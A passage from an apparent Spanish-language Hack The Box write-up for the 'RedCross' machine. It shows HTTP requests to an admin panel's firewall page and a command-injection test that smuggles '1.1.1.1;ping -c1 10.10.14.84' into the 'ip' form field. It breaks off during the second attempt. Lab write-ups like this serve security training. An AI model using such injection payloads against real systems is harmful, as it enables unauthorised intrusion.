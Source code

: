 Veamos ahora que podemos hacer desde **Network Access** (firewall):

``` html
xbytemx@laptop:~/htb/redcross$ http --verify no https://admin.redcross.htb/?page=firewall Cookie:"PHPSESSID=79cdhgjto42ab714987f6258c1; LANG=EN_US; SINCE=1555294885; LIMIT=10; DOMAIN=admin;"HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 540
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
Vary: Accept-Encoding

<center><a href=/><table border=0 width=95%><tr><td><table border=0><tr><td width=10% rowspan=2><img src='/images/it.svg' width='100%'></td><td valign='bottom'><h2>IT Admin panel</h2></td></tr><tr><td valign='top'><h3>Authorized personnel only</h3></td></tr></table></td><td width=100px><p style='font-size:75%'>[[guest]]</p><form action='/pages/actions.php' method='POST'><input type='submit' name='action' value='end session'></form></td></tr></table></a></center><center><form method=POST action='/pages/actions.php'>Whitelist IP Address: <input type='text' name='ip'>&nbsp<input type='submit' name='action' value='Allow IP'></form></center><center><table cellspacing=5 cellpadding=5><tr><td>UID</td><td>IP Address</td><td>Auth. since</td><td>Action</td></tr><tr><td>1</td><td>10.10.12.185   </td><td>2019-01-14 17:22:12.554465</td><td><form action='/pages/actions.php' method=POST><input type=hidden name=ip value=10.10.12.185   ><input type=hidden name=id value=12><input type=submit name=action value=deny></form></td></tr><tr><td>1</td><td>10.10.13.13    </td><td>2019-01-14 21:45:53.473657</td><td><form action='/pages/actions.php' method=POST><input type=hidden name=ip value=10.10.13.13    ><input type=hidden name=id value=16><input type=submit name=action value=deny></form></td></tr></table></center><br><br><center><p>Web admin system 0.9</p></center>
```

![admin firewall](/img/htb-redcross/http-admin-firewall.png)

Como podemos ver, contamos con varias reglas para permitir o denegar ciertas direcciones IP. Aquí al igual que con users, probé algunas combinaciones clásicas para un command injection, resultando esta pagina vulnerable:


``` text
xbytemx@laptop:~/htb/redcross$ http --verify=no -f POST https://admin.redcross.htb/pages/actions.php Cookie:"PHPSESSID=79cdhgjto42ab714987f6258c1; LANG=EN_US; SINCE=1555294885; LIMIT=10; DOMAIN=admin;" ip='1.1.1.1;ping -c1 10.10.14.84' action='Allow IP'
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 30
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
refresh: 1;url=/?page=firewall

ERR: Invalid IP Address format

xbytemx@laptop:~/htb/redcross$ http --verify=no -f POST https://admin.redcross.htb/pages/actions.php Cookie:"PHPSESSID=79cdhgjto42ab714987f6258c1; LANG=EN_US; SINCE=1555294885; LIMIT=10; DOMAIN=admin;" ip='1.1.1.1;ping -c1 10.10.14.84' action=deny
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 191
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Pragma: no-cache
```